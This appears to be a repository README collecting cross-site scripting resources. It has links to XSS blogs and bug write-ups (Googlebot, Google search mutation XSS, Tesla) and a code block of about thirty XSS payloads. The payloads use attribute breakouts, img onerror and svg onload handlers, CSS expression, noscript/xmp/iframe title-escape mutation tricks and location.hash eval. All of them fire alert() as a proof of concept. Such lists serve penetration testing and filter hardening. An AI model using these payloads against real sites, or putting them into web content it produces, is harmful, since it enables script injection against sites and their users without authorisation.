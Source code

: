 # xss sets
[Sec-wiki XSS](https://www.sec-wiki.com/news/search?wd=xss)

# blogs
[BRUTE XSS](http://brutelogic.com.br/blog/)

# articles
[XSS attacks on Googlebot allow search index manipulation](https://www.tomanthony.co.uk/blog/xss-attacks-googlebot-index-manipulation/)
[Google搜索中的突变XSS](https://xz.aliyun.com/t/4865)
[特斯拉上价值10000美元的XSS漏洞](https://nosec.org/home/detail/2781.html)

[About Google](https://nosec.org/home/detail/2449.html)
[Xss Sets](https://www.hahwul.com/2019/04/bypass-xss-protection-with-xmp-noscript-etc....html)
```JavaScript
<script>alert(1)</script>
"><script>alert(1)</script>
"><script>alert(document.domain)</script>
"><script>alert(1)</script><" 
'"><script>alert(1)</script>
'"><script>alert(1)</script>"
';"<script>alert(1)</script>
</script><script>alert(1)</script>
<img src='' onerror=alert(/poc/)>
<img src=1 alt="xss＂onerror=alert(1);//">
<DIV STYLE="width: ｅxpression(alert('XSS'));">
"><BODY ONLOAD=alert(1)>,1/

</title><script>alert(/poc/)</script>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE> 
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
<noscript><p title="</noscript><svg/onload=alert(1)>">
<xmp><p title="</xmp><svg/onload=alert(1)>">
<noframes><p title="</noframes><svg/onload=alert(1)>">
<iframe><p title="</iframe><svg/onload=alert(1)>">
<iframe style="visibility:hidden"><p title="</iframe><svg/onload=alert(1)>">
<svg onload=alert(document.domain)>

location:
<body/onload=eval(location.hash.slice(1))>#alert(1)
<body/onload=setTimeout(location.hash.substr(1))>#alert(1)

```
